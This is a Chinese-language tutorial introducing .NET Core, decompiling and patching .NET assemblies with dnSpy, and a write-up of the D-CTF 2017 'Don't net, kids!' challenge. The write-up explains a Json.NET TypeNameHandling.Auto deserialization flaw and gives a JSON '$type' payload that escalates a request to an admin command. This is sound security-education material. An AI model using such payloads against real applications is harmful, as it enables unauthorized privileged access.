






# .NET Core 從入門到反向
## .NET 系列
* .NET 以下各式各樣的變種，這裡簡單介紹一下
### .NET Core
* 這是這次主要要介紹的重點
* 主要特點是能跨平台，但是不支援一些 GUI 的介面，適合拿來做 CLI 介面或是網路等無介面的應用。
### .NET Framework
* 主要是用來開發 Windows PC 上面的應用程式，但是跨平台能力較差，但是可以開發出各式各樣 PC 上面的應用程式。
* 支援使用多種語言，如 C#、C++、VB...
### Xamarin
* 主要的功能是開發跨平台的行動裝置原生應用程式，可以寫一份 code 就能在多個行動裝置上執行
### Mono
* 一個在 .NET Core 出來之前跨平台的C#執行環境&編譯器
* 其專案也支援用Gtk開發桌面環境的程式
* 後來成為了 Xamarin 的前身
### .NET Standard 
* 如前面所述，.Net 有許許多多的分支，但是這些分支之間的 API 卻不一致，因此這個專案是為了讓開發人員可以使用一組共同的可攜式程式庫，使得一些和作業系統不相關的程式碼可以被簡單的共用。
## 官方網頁
* https://www.microsoft.com/net/
* https://docs.microsoft.com/zh-tw/dotnet/core/
## 入門
### 安裝開發環境
* 照著這個頁面上的步驟一步一步安裝 https://www.microsoft.com/net/download/core
### 撰寫第一個 .NET Core 程式
* 在電腦上打開終端機，輸入以下的指令
```sh
dotnet new console -o hwapp
cd hwapp
```
* 在那個資料夾中加入一個名為 ```Program.cs``` 檔案，並包含以下的內容
```C
using System;

namespace hwapp
{
    class Program
    {
        static void Main(string[] args)
        {
            Console.WriteLine("Hello World!");
        }
    }
}
```
* 這個程式的功能是在螢幕上印出 ```Hello World!``` 字樣
* 使用以下的指令執行他，就能看到螢幕上印出 ```Hello World!```
```sh
dotnet run
```
### 簡單小練習
* 利用 .NET Core 輸出九九乘法表
```C
using System;

namespace hwapp
{
    class Program
    {
        static void Main(string[] args)
        {
            for(int i=1;i<=9;i++)
                for(int j=1;j<=9;j++)
                    Console.WriteLine(i+"*"+j+"="+i*j);
        }
    }
}
```
### 跨平台執行
* 可以使用以下的指令把他 build 起來，之後到其他平台上就可以輕鬆地使用
```
dotnet build
```
* 如果是想要輸出成Release版本的話，就使用以下的指令
```
dotnet build -c Release
```
* 然後你會看到他輸出了一行類似於 ```XXX -> <Path>/XXX.dll``` 的東西，而那個路徑就是你的目標檔案
* 把那個路徑下的 ```XXX.dll``` 和 ```XXX.deps.json``` 拿到其他裝有 .NET Core Runtime 的環境，並且執行
```
dotnet XXX.dll
```
* 就會發現他成功地在其他環境中跑起來了
## 反向
### 工具
* 對於 .NET 系列的程式做逆向工程我會推薦使用一個名為 ```dnSpy``` 的開源軟體來達成這件事情
    * 官方 Github https://github.com/0xd4d/dnSpy
    * Release https://github.com/0xd4d/dnSpy/releases
* 下面是他 Github 上的示範動畫


* 安裝方法很簡單，從 Release 那裡載下來後解壓縮就能直接使用了
### 入門
* 首先我們把我們之前寫好的 .NET Core 應用程式的 dll 拿出來，拖曳到dnspy的視窗裡面，會發現到畫面左邊出現的樹狀目錄可以點，點一點之後就能找到我們寫的應用程式的程式內容

* 這時你會發現我們的程式居然被 dnSpy 反編譯成原本的樣子了
* 接下來我們試著去修改這隻程式
* 對著要修改的程式按右鍵後選擇 ```Edit Method (C#)...```

* 接著你就會看到一個視窗，你可以在裡面把原本的函數改成你想要的樣子


* 接著按下 ```compile``` 按鈕
* 然後從上面選單中的 ```File``` 裡選擇 ```Save Module...``` 然後按下 ```OK``` 後就修改完成了
* 使用 .NET Core 執行看看，看看他是否真的改變了

### CTF中的實例
* 這次的目標是 D-CTF Quals 2017 裡面的 Don't net, kids! 這一題
* 把題目給的 zip 載下來後會發現其實是一個 .NET Core 的 網頁程式
* 把裡面的 ```DCTFNetCoreWebApp.dll``` 丟到 dnSpy 裡面分析
* 觀察到 ```DCTFNetCoreWebApp.Controllers``` 這個 namespace 裡面的東西，發現這個是負責做路徑解析的功能，然後再看到裡面的 ```Post``` 函式

* 發現到以下的內容
```C
string expr_69 = JsonConvert.SerializeObject(this._executor.Execute(request.Command));
```
* 連點兩下 ```Execute``` 跳轉進去那個函式的內容

* 然後觀察到這行
```C
bool flag = command.GetType().get_Name().Equals(typeof(AdminCommand).get_Name());
```
* 仔細想想那行所代表的意思，發現其意思是: 如果 Command 的型態是 AdminCommand 的話，則代表這個 Command 可以執行被包含在 _amdinActions 內的 Command
* 這時我們的目標變成，如何讓輸入的 Command 會被轉型成 AdminCommand
* 這時我們回想起了 ```Post``` 函式裡的某個行程式碼
```C
Request request = JsonConvert.DeserializeObject<Request>(value, new JsonSerializerSettings
{
    TypeNameHandling = TypeNameHandling.Auto
});
```
* 因為 ```TypeNameHandling``` 被設定成了 ```TypeNameHandling.Auto```，因此我們可以構造一個json，而其內容中含有"$type"，使得他會被轉型成想要的型態
* 最後我們使用以下的 json 來得到 Flag
```
{
    "Command": {
        "$type": "DCTFNetCoreWebApp.Models.AdminCommand, DCTFNetCoreWebApp, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null",
        "UserId": "XXXXXXXX-XXXX-XXXX-XXXX-XXXXXXXXXXXX",
        "Action": "Readflag"
    }
}
```
### 接續
* 有時程式碼會被經過大量的混淆，那麼這時 dnSpy 出來的東西會變得很難看，這時就會需要花大量的耐心去仔細的觀察資料的流動和程式的邏輯，把裡面程式碼裡面重要和不要的部分分清楚，了解程式的核心，最後再找到目標，並且做到想要做的事情
## 額外
* 以下是幾個我覺得和 .NET 有關，而且蠻有趣的專案
### peachpie
* https://github.com/peachpiecompiler/peachpie
* 一個用 .NET 寫的 PHP 7 編譯器和執行環境
### SSH.NET
* https://github.com/sshnet/SSH.NET
* .NET 用的 SSH library
